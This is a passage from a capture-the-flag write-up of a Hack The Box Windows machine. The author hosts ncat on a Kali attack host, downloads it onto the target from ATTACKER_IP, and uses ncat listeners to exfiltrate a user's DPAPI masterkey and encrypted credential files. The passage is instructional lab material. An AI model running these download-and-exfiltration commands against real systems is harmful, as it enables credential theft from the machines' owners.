```
    CredFile: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
    Description: Enterprise Credential Data

    MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 7:54:29 AM
    Modified: 3/8/2025 7:54:29 AM
    Size: 414
   =================================================================================================

<SNIP>
```

### 🧪 Exploitation

I shared `ncat` on the attack host.

```
fcoomans@kali:~/htb/puppy$ python -m http.server -d /usr/share/windows-resources/ncat
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And downloaded it on the target.

```
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Local\Temp> iwr http://ATTACKER_IP:8000/ncat.exe -outfile ncat.exe
```

I started a `ncat` listener on the attack host to receive a file and save the contents as `loot/masterkey`.

```
fcoomans@kali:~/htb/puppy$ ncat -lvnp 4444 --recv-only >loot/masterkey
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
```

`ncat` on the target was then used to send the masterkey to the attack host.

```
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Local\Temp> cmd /c "ncat ATTACKER_IP 4444 --send-only <C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407"
```

A new `ncat` listener was then started to download the encrypted credentials file as `loot/creds`.

```
fcoomans@kali:~/htb/puppy$ ncat -lvnp 4444 --recv-only >loot/creds
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
```
